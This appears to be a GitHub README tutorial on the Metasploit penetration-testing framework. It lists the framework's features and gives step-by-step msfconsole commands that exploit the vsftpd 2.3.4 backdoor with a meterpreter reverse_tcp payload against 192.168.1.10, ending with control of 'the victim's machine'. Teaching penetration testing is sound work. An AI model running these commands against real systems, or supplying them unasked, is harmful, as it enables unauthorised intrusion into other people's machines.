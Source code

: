 # 💣 Metasploit Framework

##     Description

Metasploit is an open-source penetration testing framework widely used for developing, testing, and executing exploits against 
target systems. It provides security professionals and ethical hackers with powerful tools for vulnerability research, exploit development,
and penetration testing.

---

## ✅ Key Features:

- Huge collection of ready-to-use exploits, payloads, and auxiliary modules

- Post-exploitation tools for maintaining access and gathering data

- Built-in Meterpreter payload for advanced exploitation

- Support for vulnerability scanning and exploitation

- Integrates with tools like Nmap, Nessus, and Burp Suite

- Useful for red teaming, security assessments, and training

---

## Metasploit Use

- After scanning the ports of the Target machine you have seen all the active and open ports of the target machine.

- To get start with metasploit type command `msfconsole`.

- From the open ports version check which version is running on the target machine.

- Now check that version exploit is there on your Metasploit Framework by typing the command `search exploit: exploit name`.

- If that exploit is present in your metasploit framework than it will be easy for you to exploit your target machine, and
if it is not present in the metaploit framework than youhave to download it from the web browser or you can create your own exploit.


## 🛠 Example Usage

#### Start Metasploit console
**`msfconsole`**

#### Search for an exploit
**`search vsftpd`**

#### Use a module
**`use exploit/unix/ftp/vsftpd_234_backdoor`**

#### Show module options
**`show options`**

#### Set target and payload
**`set RHOSTS 192.168.1.10`**
**`set PAYLOAD linux/x86/meterpreter/reverse_tcp`**

#### Run the exploit
**`exploit`**

- After typing the Exploit it will either make a succesfull connection of connection will be failed.

- If connection is establised than simplly type command `ip a` and it will show to IP Address of the Target Machine.

- Congratualtions Now you can use the victim's machine.

  ---

  ---
